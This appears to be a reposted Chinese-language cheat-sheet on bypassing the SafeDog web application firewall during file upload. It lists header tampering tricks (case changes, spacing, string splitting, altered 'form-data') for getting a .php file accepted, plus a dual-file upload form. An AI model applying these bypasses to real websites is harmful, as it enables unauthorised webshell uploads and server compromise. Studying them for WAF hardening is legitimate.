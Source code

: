 # 上传绕过总结

> 原文：[https://www.zhihuifly.com/t/topic/3597](https://www.zhihuifly.com/t/topic/3597)

## 上传绕过整理

### WAF绕过

#### 安全狗绕过

1.绕过思路：对文件的内容，数据。数据包进行处理。

```
关键点在这里Content-Disposition: form-data; name="file"; filename="ian.php"
将form-data;            修改为~form-data; 
```

2.通过替换大小写来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition    修改为content-Disposition
将 form-data            修改为Form-data
将 Content-Type         修改为content-Type 
```

3.通过删减空格来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition: form-data          冒号后面 增加或减少一个空格
将form-data; name="file";                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格 
```

4.通过字符串拼接绕过

```
看Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata 
```

5.双文件上传绕过

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form> 
```
